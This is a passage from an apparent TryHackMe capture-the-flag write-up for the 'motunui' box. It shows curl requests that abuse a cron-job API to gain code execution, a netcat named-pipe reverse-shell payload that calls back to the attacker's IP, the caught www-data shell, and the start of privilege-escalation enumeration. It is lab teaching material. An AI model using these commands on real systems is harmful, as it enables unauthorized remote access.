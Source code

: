 ### Creating a new job
```console
local@local:~/Documents/tryhackme/motunui$ curl -H 'Content-Type: application/json' -d '{"hash":"<redacted_hash>","job":"* * * * * ping -c 1 10.6.31.213"}' -XPOST http://api.motunui.thm:3000/v2/jobs 
{"job":"* * * * * ping -c 1 10.6.31.213"}
```
I have created a job so that it pings my local device and I set up tcpdump for listening the ICMP packets and soon after a while we get a response back which means we have code execution.
```console
local@local:~/Documents/tryhackme/motunui$ sudo tcpdump -i tun0 icmp
[sudo] password for local: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:47:01.786740 IP d3v3lopm3nt.motunui.thm > local: ICMP echo request, id 1877, seq 1, length 64
14:47:01.786773 IP local > d3v3lopm3nt.motunui.thm: ICMP echo reply, id 1877, seq 1, length 64
```
The next step would be try and get a reverse shell.

## Reverse Shell as www-data
Lets create another job and this time use reverse shell payload.
### Creating a new jobs
```console
local@local:~/Documents/tryhackme/motunui$ curl -H 'Content-Type: application/json' -d '{"hash":"<redacted_hash>","job":"* * * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f"}' -XPOST http://api.motunui.thm:3000/v2/jobs
{"job":"* * * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f"}
```
The jobs is created succesfully and after some time,we get connection back on our netcat listener.

```console
local@local:~/Documents/tryhackme/motunui$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.193.225 35464
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),105(crontab)
```
The user www-data is in crontab group and I searched if this can be used for privilege escalation and found a [article](https://seclists.org/oss-sec/2017/q2/435), but I couldnot replicate the result. So, I continued with my enumeration.

# Privilege Escalation

### Users on the box
```console
www-data@motunui:/home$ ls -la
total 16
drwxr-xr-x  4 root    root    4096 Jul  7 16:32 .
drwxr-xr-x 24 root    root    4096 Aug  3 13:07 ..
drwxr-xr-x  7 moana   moana   4096 Sep 30 23:57 moana
drwxr-xr-x  3 network network 4096 Jul  9 03:48 network
```
### Content inside network's home directory
```console
www-data@motunui:/home$ ls -la network/
total 28
drwxr-xr-x 3 network network 4096 Jul  9 03:48 .
drwxr-xr-x 4 root    root    4096 Jul  7 16:32 ..
-rw------- 1 network network  246 Jul  7 17:51 .bash_history
-rw-r--r-- 1 network network  220 Jul  7 16:32 .bash_logout
-rw-r--r-- 1 network network 3771 Jul  7 16:32 .bashrc
-rw-r--r-- 1 network network  807 Jul  7 16:32 .profile
```